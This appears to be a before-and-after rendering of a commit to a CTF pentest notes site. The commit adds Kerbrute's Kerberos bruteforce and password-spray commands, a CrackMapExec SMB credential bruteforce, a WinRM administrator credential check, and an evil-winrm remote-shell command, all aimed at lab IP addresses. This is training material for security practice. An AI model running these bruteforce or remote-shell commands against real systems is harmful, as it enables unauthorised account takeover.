

Before and after one commit to xanhacks/ctf-docs, an MkDocs documentation site: the page built from docs/pentest/services.md, in a window 1280 px wide and 900 px high. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
add kerbrute

````diff
--- a/docs/pentest/services.md
+++ b/docs/pentest/services.md
@@ -6,6 +6,18 @@ description: How to pentest different services.
 ## FTP (port 21)
 
 `nmap -p 21 --script=ftp-anon 10.10.174.58`
+
+## Kerberos (port 88)
+
+### Enumeration & bruteforce
+
+[Kerbrute](https://github.com/ropnop/kerbrute) has four main commands:
+
+- bruteuser - Bruteforce a single user's password from a wordlist
+- bruteforce - Read username:password combos from a file or stdin and test them
+- passwordspray - Test a single password against a list of users
+- userenum - Enumerate valid domain usernames via Kerberos
+
 
 ## RPC / NFS (port 111, 2049, 20048)
 
@@ -131,6 +143,13 @@ smb://10.10.220.222/anonymous/log.txt
 Downloaded 11.95kB in 1 seconds
 ```
 
+### Bruteforce SMB
+
+```
+$ cme smb 10.10.10.182 -u users.lst -p passwords.list
+[...]
+```
+
 ### Shell over SMB (psexec.py)
 
 How [psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) works ?
@@ -184,6 +203,15 @@ Windows user need to be in the `Remote Management Users` group to use WinRM.
 
 You can use [evil-winrm](https://github.com/Hackplayers/evil-winrm) to obtain a remote shell.
 
+To check :
+
+```bash
+$ cme winrm 10.200.10.196 -u administrator -p 'pass123'
+WINRM ... (Pwn3d!)
+```
+
+Gain shell :
+
 ```bash
 $ evil-winrm -i 10.200.10.196 -u administrator -p 'admin123'
 
````
Also changed, not shown: other parts of docs/pentest/services.md (+1 -1 lines).
